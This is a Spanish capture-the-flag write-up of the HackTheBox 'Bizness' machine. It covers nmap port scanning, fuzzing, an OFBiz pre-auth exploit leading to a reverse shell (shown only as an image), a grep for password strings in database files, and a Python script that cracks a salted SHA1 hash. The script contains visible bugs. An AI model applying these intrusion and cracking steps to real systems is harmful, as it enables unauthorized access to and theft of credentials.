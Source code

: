 ```yaml
---
title: HTB Bizness Writeup
date: 2024-05-25 08:00:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, https, OFBiz, Deserialzation, RCE pre-auth]
comments: false
image:
  path: /assets/img/HTB-Bizness/Bizness.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Bizness` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.252
PING 10.10.11.252 (10.10.11.252) 56(84) bytes of data.
64 bytes from 10.10.11.252: icmp_seq=1 ttl=63 time=95.2 ms

--- 10.10.11.252 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 95.228/95.228/95.228/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp    open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open  ssl/http   nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-server-header: nginx/1.18.0
37607/tcp open  tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que se nos refleja un dominio, así que lo agregamos al `/etc/hosts`, para que la máquina sepa a donde resolver.

```bash
127.0.0.1	localhost
::1		localhost
127.0.0.1	machinename.localhost	machinename

10.10.11.252 bizness.htb
```

Nos dirigimos al navegador y vemos que nos redirige a `https`, luego fuzeando un poco con wfuzz.
```bash
wfuzz -c -t 50 --hc=404 -w diccionario.txt -u https://bizness.htb/FUZZ/
```

### Explotación de OFBiz RCE pre-auth

Vemos que nos encuentra una ruta `control` y sobre esa ruta volvemos a fuzzear y nos encuentra `login`. Allí nos sale un panel de auntenticación llamado `OFBiz`, pero no tenemos ninguna credencial, en la parte de abajo de la web nos sale lo que parece ser una verisón así que buscamos alguna vulnerabilidad asociada y nos encontramos con en siguiente <a href="https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass">exploit</a>, donde nos explican como es la vulnerabilidad y de que trata.

Procedemos a clonar el repositorio y a entablar una revshel.
![](/assets/img/HTB-Bizness/1_Bizness.png)

Luego hacemos el tratamiento de la `tty`

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TEMR=xterm
```
Y podemos ver la flag del usuario.

## Escalada de privilegios

Luego de enumerar, vemos que en la ruta `/opt/ofbiz/runtime/data/derby/ofbiz/seg0` nos encontramos con algunos archivos `.dat` que podrían contener datos interesantes, con la siguiente `regex` buscamos algo que nos interese.

```bash
grep -arin -o -E '(\w+\W+){0,5}password(\W+\w+){0,5}' .
```

Vemos que hay un hash con un formato un tanto extraño, así que con el siguiente script vamos a tratar de descifrarlo.

![](/assets/img/HTB-Bizness/2_Bizness.png)

```bash
#!/usr/bin/bash3

import hashlib
import base64
import os

def cryptBytes(hash_type, salt, value):
    if not hash_type:
        hash_type = "SHA"
    if not salt:
        salt = base64.urlsafe_b64encode(oss.urandom(16)).decode('utf-8')
    hash_obj = hashlib.new(hash_type)
    hash_obj.update(salt.encode('utf-8'))
    hash_obj.update(value)
    hashed_bytes = hash_obj.digest()
    result = f"${hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
    return result
def getDecryptedBytes(hash_type, salt, value):
    try:
        hash_obj = hashlib.new(hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
    except hashlib.NoSuchAlgorithmException as e:
        raise Exception(f"Error while computng hash of type {hash_type}: {e}")
hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = 'rockyou.txt'
with open(wordlist, 'r', encoding="latin-1") as password_list:
    for password in password_list:
        value = password.strip()
        hashed_password = cryptBytes(hash_type, salt, value.encode('utf-8'))

        if hashed_password == search:
            print(f'Found password:{value}, hash:{hashed_password}')
            break
```

![](/assets/img/HTB-Bizness/3_Bizness.png)

Una vez obtenida la contraseña probamos con el usuario root y vemos que funciona y ahora ya tenemos podemos ver la root.txt
